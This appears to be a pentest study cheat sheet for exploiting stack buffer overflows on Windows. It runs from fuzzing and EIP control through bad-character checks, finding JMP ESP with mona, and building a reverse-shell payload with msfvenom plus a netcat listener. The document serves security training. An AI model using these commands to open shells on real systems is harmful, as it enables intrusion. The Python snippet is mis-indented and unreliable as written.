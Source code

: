 # Buffer Oveflow

## Identify Overflow Length

> 1. Attach debugger
> 2. Run fuzzer script
> 3. Run confirm-overflow script

## Control EIP

> 1. Create pattern: `msf-pattern_create -l <length>`
> 2. Run locate-offset script
> 3. Locate offset: `msf-pattern_offset -l <length> <eip-value>`
> 4. Run verify-offset script

## Locate Space for Shellcode

> 1. Run increase-overflow script to attempt increasing overflow size
> 2. If successful, run bad-char script
>
> - On the debug machine, we can generate a file which contains the same list of badchars with the help of python:
>
> ```python
> badchar_test = ""
>   badchars = [0x00, 0x0A, 0xAD]
>   for i in range(0x00, 0xFF+1):
>   	  if i not in badchars:
>        badchar_test += chr(i)
>   with open("badchar_test.bin", "wb") as f:
>      f.write(badchar_test)
> ```
>
> - Now, we can compare the contents of stack pointed by esp and the file using mona module:
>
>   `!mona compare -a esp -f C:\Python27\badchar_test.bin`

## Find Return Address

> 1. Locate module w/ least memory protection: mona.py `!mona modules`
> 2. JMP ESP hex: `msf-nasm_shell > jmp esp` (FFE4)
> 3. Locate JMP ESP w/ no bad chars: mona.py `find -s "\xff\xe4" -m "<dll module>"`
> 4. Run verify-jmp-esp script

## Getting Shell

> 1. Generate payload: `msfvenom -p <payload> LHOST=<ip> LPORT=<port> EXITFUNC=thread -f <format> -e x86/shikata_ga_nai -b "<bad-chars> (e.g. \x00\x0a\x0d\x25\x26\x2b\x3d)"`
> 2. Run listener: `sudo nc -nvlp <port>`
> 3. Run exploit script

## Cheatsheets

> - [Tib3rius/Pentest-Cheatsheets](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
> - [V1n1v131r4/OSCP-Buffer-Overflow](https://github.com/V1n1v131r4/OSCP-Buffer-Overflow)
> - [Liodeus](https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html)
